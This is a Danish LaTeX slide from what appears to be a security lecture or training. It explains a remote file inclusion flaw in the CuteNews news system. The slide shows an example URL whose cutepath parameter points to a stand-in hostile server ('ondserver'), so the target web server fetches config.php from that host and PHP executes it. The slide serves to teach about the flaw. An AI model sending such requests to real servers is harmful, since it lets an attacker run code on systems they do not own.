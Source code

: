 \documentclass[20pt,landscape,a4paper,footrule]{foils}
\begin{document}


\centerline{Lille nemt nyhedssystem}

Mit demosystem virker ikke mere, fordi installationen er blevet \emph{for sikker}



\begin{list1}
\item CuteNews indeholder sårbarheder
\item Sårbarheden er beskrevet på: 
\item Softwaren findes på: 
\end{list1}




\begin{list1}
\item \verb!http://server/cutenews/show_archives.php?!\\
{\bfseries \verb!cutepath=http://ondserver/files/pentest/!}
\end{list1}


\begin{list2}
\item Henter config.php i cutepath - søgesti
\item Cutepath kan ændres og derved kan filen \verb+data/config.php+ hentes
  fra en vilkårlig server på Internet
\item Webserveren \emph{henter filen} - ud
gennem firewall
\item PHP fortolkeren på webserveren udfører kommandoerne
\end{list2}
\centerline{\bf NB: ikke kun problem for PHP}

\end{document}
